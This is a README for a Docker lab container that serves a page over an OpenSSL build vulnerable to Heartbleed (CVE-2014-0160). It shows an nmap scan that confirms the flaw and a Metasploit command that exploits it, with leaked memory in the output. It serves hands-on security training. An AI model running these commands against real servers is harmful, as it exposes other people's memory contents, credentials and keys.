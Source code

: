 # Vulnerability as a Service - CVE 2014-0160
A Debian (Wheezy) Linux system with a vulnerable version of libssl and openssl and a web server to showcase CVS-2014-0160, a.k.a. Heartbleed.

# Overview
This docker container is based on Debian Jessie and has been modified to use a vulernable version of libssl and openssl.

A simple static web page is served via Apache 2.

# Usage
Install the container with `docker pull hmlio/vaas-cve-2014-0160`

Run the container with a port mapping `docker run -d -p 8443:443 hmlio/vaas-cve-2014-0160`

You should be able to access the web application at http://your-ip:8443/.

# Checking
The web server/vulnerable openssl/libssl version can be verified and exploited as shown below (using a Kali machine is recommended):</br>

``` sh
root@kali:~/vaas-cve-2014-0160# nmap -sV -p 8443 --script=ssl-heartbleed your-ip
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-26 17:31 EDT
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000068s latency).
Other addresses for localhost (not scanned): ::1

PORT     STATE SERVICE VERSION
8443/tcp open  ssl/ssl Apache httpd (SSL-only mode)
|_http-server-header: Apache/2.4.10 (Debian)
| ssl-heartbleed: 
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
|       OpenSSL versions 1.0.1 and 1.0.2-beta releases (including 1.0.1f and 1.0.2-beta1) of OpenSSL are affected by the Heartbleed bug. The bug allows for reading memory of systems protected by the vulnerable OpenSSL versions and could allow for disclosure of otherwise encrypted confidential information as well as the encryption keys themselves.
|           
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160
|       http://cvedetails.com/cve/2014-0160/
|_      http://www.openssl.org/news/secadv_20140407.txt 

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.61 seconds
```

# Exploitation
``` sh
Using msfcli from the Metasploit framework:
root@kali:/tmp# msfcli auxiliary/scanner/ssl/openssl_heartbleed RHOSTS=your-ip RPORT=8443 VERBOSE=true E

...
...
[*] 192.168.179.230:8443 - Sending Heartbeat...
[*] 192.168.179.230:8443 - Heartbeat response, 65535 bytes
[+] 192.168.179.230:8443 - Heartbeat response with leak
[*] 192.168.179.230:8443 - Printable info leaked: U`tcz~8}"V2|vf3<tf"!98532ED/A/39.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Accept-Language: de,en-US;q=0.7,en;q=0.3Accept-Encoding: gzip
```
